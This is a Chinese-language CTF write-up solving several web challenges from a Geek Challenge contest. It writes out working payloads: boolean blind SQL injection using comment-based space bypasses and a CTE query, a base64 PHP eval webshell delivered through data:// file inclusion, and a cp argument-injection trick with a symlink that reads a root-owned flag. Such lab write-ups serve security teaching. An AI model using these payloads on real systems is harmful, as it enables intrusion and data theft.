这个极客大挑战就做了web方向的题，这里就挑几道详细写一下


[TOC]

# 极客大挑战


## 保卫玉米

题目描述

说是抓包不好抓，应该是有个小游戏要改前端过的



看界面上的信息用get传一个cornguard,

url传/?name=cornguard进入下一个界面



要你post一个action=join



大大的拒绝普通浏览器访问，我当时想的是UA头改成Corn Terminal当时发现过不了，然而复现时候发现突然又行了，不知道什么毛病



进来之后是一个小游戏，这种一般审前端源码



前端信任传入的攻击伤害

```
els.fire.addEventListener('click', async () => {
  const data = await request('/api/fire', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({damage: battle.default_damage})
  });
```

里面还写出了，完成三关显示flag的的代码

```
if (data.flag) {
  els.flagText.textContent = data.flag;
  els.flagOutput.classList.remove('hidden');
}
```

所以往/api/fire传入json形式信息，把damage值改为9999999就可以过关获得flag


## 丹特丽安の書架

这道题给了个书籍查询窗口，考的应该是sql注入，查询之后只有查询状态，应该是布尔盲注



输入1 或1‘和1“测试一下，输入1'报错，加`#`后正常





正常试探，order by 1都报错，说明可能waf掉了order by，经过尝试后发现是waf掉了空格，这里用**`/**/`**内联注释代替空格就可以绕过



用内联注释之后探出只有五列



后面的就是正常布尔盲注的流程，正常流程就是length()试长度

再用1’ and ascii(substr(database(),0,1))=' '# 一个一个爆

ai写个脚本py脚本爆了

最后出来security表里面有一列叫syc_flag，flag应该在里面



flag就在里面




## 丹特丽安の書架_revenge

题目描述

整体框架和前面那道是一样的，但是waf‘了一些东西，需要自己去测试waf掉了什么最终还是得布尔盲注


1'/**/order/**/by/**/1#还是可以使用



通过 ASCII 盲注可以提取：

```sql
database()
version()
current_user()
```

得到：

```text
database()     = syclover
version()      = 8.0.46   //高于8.0 后续CTE可使用的条件
current_user() = reader@%
```

但是沿用上面那题的脚本无法正常拉取数据，尝试时间盲注等其他手段，或者大小写、双写绕过都不行

最后发现这道题是过滤掉了information_schema的使用，只要一用这个就查询失败，

怎么测试出来的呢：

```
1'/**/and/**/exists(
    select/**/1/**/from/**/information_schema.tables
)#
```

结果为查询不到

同时：

```
1'/**/and/**/exists(select/**/1/**/from/**/security)#
```

结果为查询成功

说明注入本身成立，但information_schema被过滤

但是不用这个的话就没法构造payload读出后面的表名、列名，后面还是ai给出了一个方案:

使用**CTE** **(前提若用的是MySQL是必须用MySQL 8.0以上版本)**

```
CTE 的英文是 Common Table Expression，中文通常叫“公共表表达式”。

作用是在一条 SQL 语句内部定义一个临时结果集，并给它一个名字，后面的 `SELECT`、`UPDATE` 或 `DELETE` 可以像使用普通表一样使用它
```

一般语法构成

```
WITH cte_name AS (
    -- 这里是子查询，用于生成临时结果集
    SELECT column1, column2 FROM some_table WHERE condition
)
-- 主查询，可以像使用普通表一样引用 cte_name
SELECT * FROM cte_name;
```

本题已经知道表名是 `security`，但 `information_schema` 不能用来获取真实列名

可以写：

```sql
WITH t(c1, c2, c3, c4, c5) AS (
    SELECT * FROM security
)
SELECT c5 FROM t;
```

从真实的 `security` 表中提取所有数据。因为表正好有 5 列，所以按照顺序，真实的列与 `t` 表的列形成了映射：

c1对应 id

c2对应 title

c3对应 author

c4对应 description

c5对应syc_flag

查询c5就是查询syc_flag

可以用group_concat直接提取第五列把多行数据一次型爆出来

```
WITH t(c1,c2,c3,c4,c5) AS (
    SELECT * FROM security
)
SELECT GROUP_CONCAT(c1 SEPARATOR 0x7c)
FROM t;
```

SEPARATOR 0x7c指定了不同行之间用`|`分隔

最终放进盲注的payload是:

```
1'/**/and/**/ascii(substr((
    WITH t(c1,c2,c3,c4,c5) AS (
        SELECT * FROM security
    )
    SELECT GROUP_CONCAT(c5 SEPARATOR 0x7c)
    FROM t
),1,1))>63#
```

后面步骤就是常规布尔盲注的流程

脚本最终得到 syc1|syc2|syc3|syc4|syc5|SYC{ce43e8d4-069f-4c7c-848d-bd11d5032d0f}


## 术之尽头

题目描述

猜谜来了，不知道在说什么



进入网址一看发现没有什么有用信息，完全夹带私货来着



dirsearch一扫发现又robots.txt



继续访问，hyw此路不通



这时候我想他不同路由下f12看到的东西可能不一样，然后在/robots.txt下看到引用了一个js代码



点进去是这一串

```
(()=>{const k=17,a=[62,101,99,100,100,116,116,114,121,112,125,125,116,127,118,116,63,97,121,97];console.log("%c闇€鐪嬪緱寮€锛岄渶鏀惧緱寮€銆�","color:#555;font-weight:bold");console.log(a.map(x=>String.fromCharCode(x^k)).join(""))})();
```

a.map(x=>String.fromCharCode(x^k))使用了异或，要知道任何一个数字异或同一个数字两次就等于它本身

key是17 网上在线工具解一下

或者用用控制台直接解

```
alert([62,101,99,100,100,116,116,114,121,112,125,125,116,127,118,116,63,97,121,97].map(x=>String.fromCharCode(x^17)).join(""));
```

弹出一个`/truueechallenge.php`访问后是一段php源码

```
<?php
error_reporting(0);

$cmd = trim(<<<'PHP'
<?php @eval($_POST['cmd']); ?>
PHP);

if (!isset($_GET['file'])) {
    highlight_file(__FILE__);
    exit("Please include your file.");
}

$file = str_replace(' ', '+', $_GET['file']);

if (base64_decode(substr($file, 25), true) !== $cmd) {
    die("blocked");
}

include $file;
Please include your file.
```

这里有文件包含漏洞和一句话木马

```
f (base64_decode(substr($file, 25), true) !== $cmd) 这里从第25个字符之后的base64值解码以后要与$cmd里的值一致
```

```
$cmd 变量：使用了 Heredoc 语法（<<<'PHP'，类似 Nowdoc，不解析变量），其真实值是：
<?php @eval($_POST['cmd']); ?>     ///base64后是PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7ID8+
```

`data://text/plain;base64,` 正好是 25 个字符，因此可以构造：

```
data://text/plain;base64,PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7ID8+
```

前面 25 个字符会被 `substr` 去掉，后面的 Base64 解码后正好是允许的 PHP 木马。`include` 使用 `data://` 执行它，再通过 POST 的 `cmd` 参数执行命令

直接传`data://text/plain;base64,PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7ID8+`不行，把前面部分url编码一下就可以了

最终传木马payload

```
/truueechallenge.php/?file=data%3a%2f%2ftext%2fplain%3bbase64,PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7ID8+
```

然后post往里写东西，传个cmd=system("ls -la /");  发现很多东西，不知道flag在哪



**这时候查看启动脚本，最有可能找到线索**

```
cmd=system("cat /start.sh");
```

启动脚本是

```
if [ -z "${FLAG:-}" ]; then
    token="$(tr -dc 'a-f0-9' < /dev/urandom | head -c 32)"
    FLAG="$(printf '\123\131\103{%s}' "$token")"
fi

printf "%s\n" "$FLAG" > /tmp/flag
chown root:root /tmp/flag
chmod 700 /tmp/flag
unset FLAG
```

flag被写入/tmp/flag且所有者是root 正常用户无法读取

这时候chat了一下ai发现

脚本本以 `root` 权限启动了一个死循环，每隔 5 秒执行一次：

bash

```
cd /var/www/html/primary
cp -P * /var/www/html/marstream/
chmod 755 -R /var/www/html/marstream/
```

**致命弱点**：`primary` 目录的权限是 `777`（任何人可写），且 `cp -P *` 命令没有加 `--` 来防止参数注入。

`cp -P` 原本的作用是“遇到软链接时，只复制链接本身，不跟随”。但是，如果我们在 `primary` 目录里创建一个名字叫 `-L` 的文件，当 `*` 展开时会列出目录下所有文件，命令就会变成：
`cp -P -L 其它文件... /var/www/html/marstream/`
由于 `-L`（强制跟随软链接，会跟随去复制真实文件）在 `-P` 之后，它会**覆盖** `-P` 的作用（只复制软连接，不会去复制文件）

接下来需要做的是

1. 在 `primary` 目录下创建名为 `-L` 的文件

2. 在 `primary` 目录下创建一个名为 `flag` 的软链接，指向 `/tmp/flag`。

   ```
   cmd=system("cd /var/www/html/primary && touch -- -L && ln -sf /tmp/flag flag && ls -la");
   ```

3. root 权限的 `cp` 命令执行时，会被 `-L` 影响，**以 root 权限读取** `/tmp/flag` 的内容，并将其实体文件复制到 `marstream` 目录里

   执行下面命令可以看到flag

   ```
   cmd=system("cat /var/www/html/marstream/flag");
   ```


## 过期文档

题目描述

题目叫过期文档、又说追寻历史的脚本，应该是有敏感文件泄露，和历史记录有关

